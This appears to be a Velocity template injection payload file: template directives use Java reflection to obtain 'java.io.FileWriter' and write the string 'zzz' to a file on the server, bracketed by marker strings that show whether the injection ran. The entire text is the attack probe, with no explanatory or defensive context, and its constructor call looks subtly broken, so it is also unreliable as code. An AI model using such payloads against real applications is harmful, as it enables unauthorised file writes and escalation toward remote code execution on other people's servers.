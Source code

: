 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b = $a.FileWriter("./uuuu"))
#set ($c = $b.write("zzz"))
#set ($d = $b.flush())
#set ($e = $b.close())
$monkey
